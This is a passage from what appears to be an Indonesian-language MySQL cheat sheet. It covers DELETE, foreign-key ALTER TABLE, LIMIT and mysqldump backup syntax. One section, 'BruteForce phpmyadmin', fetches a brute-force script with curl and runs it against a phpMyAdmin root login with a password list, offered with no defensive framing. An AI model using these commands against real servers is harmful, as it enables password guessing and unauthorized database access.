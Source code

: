 WHERE some_column=some_value 
```

#### Delete data
```
DELETE FROM nama_tabel WHERE column = value
```
Misalkan :
```
DELETE FROM coba WHERE id = 1
```

#### Alter Table on FOREIGN KEY
```
ALTER TABLE NamaTabelSekarang
ADD FOREIGN KEY (NamaField) 
REFERENCES NamaTabelKunci(NamaField); 
```

#### Alter Table on FOREIGN KEY (constraint)
```
ALTER TABLE NamaTabelSekarang
ADD CONSTRAINT FK_NamaField
FOREIGN KEY (NamaField) REFERENCES NamaTabelKunci(NamaField); 
```

#### Limit Data
```
SELECT * FROM nama_tabel LIMIT 30
```

### BruteForce phpmyadmin
```
curl https://raw.githubusercontent.com/safflower/phpmyadmin-authentication-bruteforce/master/main.py > main.py
```
```
python3 main.py -url http://example.com/pma/ -user root -dict password.txt
```
Bisa dilihat link dibawah ini :
https://github.com/safflower/phpmyadmin-authentication-bruteforce

### Backup MySQL
```
mysqldump -u USERNAME -p PASSWORD NAMA_DATABASE --ignore-table=NAMA_TABEL > backup_database.sql
```


### Terima Kasih
